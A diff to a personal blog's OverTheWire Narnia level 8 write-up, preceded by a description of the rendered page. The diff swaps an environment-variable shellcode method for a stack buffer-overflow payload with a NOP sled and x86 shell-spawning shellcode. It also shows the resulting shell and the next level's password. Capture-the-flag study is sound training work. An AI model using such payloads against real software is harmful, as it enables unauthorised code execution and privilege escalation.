

Before and after one commit to Blackhawk989/Blackhawk989.github.io, a Jekyll site: the page built from _posts/overthewire-Narnia-2022/2022-03-03-narnia.md, in a window 1280 px wide and 1400 px high, scrolled down 26818 px. Shown: the top 1332 px of the window, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 27684 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2022-03-03-narnia.md

````diff
--- a/_posts/overthewire-Narnia-2022/2022-03-03-narnia.md
+++ b/_posts/overthewire-Narnia-2022/2022-03-03-narnia.md
@@ -935,44 +935,26 @@ Error in re-setting breakpoint 1: No symbol "func" in current context.
 So, if we had been outside gdb, we would now have shell access. So, let's try this outside gdb.
 
 ```console
-narnia8@narnia:~$ export SHELLCODE=$(printf "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80")
-narnia8@narnia:~$ mkdir /tmp/tem_shell
-narnia8@narnia:~$ cd /tmp/tem_shell
-narnia8@narnia:/tmp/tem_shell$ vim addr.c
+narnia8@narnia:/narnia$ /narnia/narnia8 $(python -c 'print "A"*20 + "\x0c\xd8\xff\xff" + "AAAA" + "\x2c\xd6\xff\xff" + "\x90"*16 + "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"')
+AAAAAAAAAAAAAAAAAAAA
+                    ���������^���
+narnia8@narnia:/narnia$ /narnia/narnia8 $(python -c 'print "A"*20 + "\x0c\xd8\xff\xff" + "AAAA" + "\x2c\xd6\xff\xff" + "\x90"*16 + "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"') | xxd
+00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
+00000010: 4141 4141 0cd8 ffff 88d6 ffff a784 0408  AAAA............
+00000020: 5ed8 ffff 0a
 ```
-
-```c
-// addr.c
-#include <stdio.h>
-#include <stdlib.h>
-
-int main()
-{
-  printf("%p\n", getenv("SHELLCODE"));
-}
-```
+That's not quite what we expected, seems like we our not getting past our that pointer value again, we need to adjust that address. So piping this into xxd allows us to see it printing out the memory until the program reaches a null byte, very helpful in getting the correct memory address.
 
 ```console
-narnia8@narnia:/tmp/tem_shell$ gcc -m32 addr.c -o findAddr
-narnia8@narnia:/tmp/tem_shell$ ./findAddr
-0xffffdea4
-narnia8@narnia:/tmp/tem_shell$ cd /narnia/
-narnia8@narnia:/narnia$ ./narnia8 $(python -c 'print "A"*20') | xxd
-00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
-00000010: 4141 4141 79d8 ffff a8d6 ffff a784 0408  AAAAy...........
-00000020: 79d8 ffff 0a                             y....
-narnia8@narnia:/narnia$ ./narnia8 $(python -c 'print "A"*20 + "\x6d\xd8\xff\xff" + "AAAA" + "\xa4\xde\xff\xff"')
-AAAAAAAAAAAAAAAAAAAAm���AAAA����m���
+narnia8@narnia:/narnia$ /narnia/narnia8 $(python -c 'print "A"*20 + "\x5e\xd8\xff\xff" + "AAAA" + "\x8c\xd6\xff\xff" + "\x90"*16 + "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"')
+AAAAAAAAAAAAAAAAAAAA^���AAAA��������������������j1X�̀�É�jFX̀�
+                                                             Rhn/shh//bi���̀
 $ whoami
 narnia9
 $ cat /etc/narnia_pass/narnia9
 eiL5fealae
 ```
 
-The code is inconsistent, at least for me, doing the same thing  managed to only get me a handful of correct results. From what I could tell, doing these set of shell commands from login is the most reliable way to get access to the shell. My guess is either the shellcode that was running  wrong, or that the c code to find the address of the environment variable was somehow wrong. I pulled the shellcode and general idea from [this](https://www.tenouk.com/Bufferoverflowc/bufferoverflowvulexploitdemo32.html) tutorial, this also gave the code for the addr.c code.
+Changing this address and fiddling with the return address a bit gave us access to the shell!
 
-One thing that we can do, since we don't know the memory location in which to return to, a place where the memory location can we can find and stay consistent is stored as an environment variable. Saving the shellcode in `SHELLCODE`, similar to how we did it in `Level 1`. The shellcode that we used for `Level 1` did not work as expected, so I used the alternate shellcode that I also mentioned.
-
-To find the location of `SHELLCODE`, the `getenv()` method can be used from C. This function returns the environment variable, and we can display the pointer using a `%p` specifier. This c file was then compiled in 32 bit to get an 8-byte address. Additionally, there we have to match the memory blocks once again, so we can look at `0xffffd879`, since we add 12 bytes to buffer, we must subtract 12 bytes from this value, so `0xffffd86d` is written to get it to work. The next four bytes don't matter, so we can fill that with `AAAA`. Finally, finishing by adding the environment variable memory location to overwrite the return address to be run when we return from the function.
-
-Running this function gave us access to the shell and `eiL5fealae` is the final password!
+`eiL5fealae` is the final password!
````
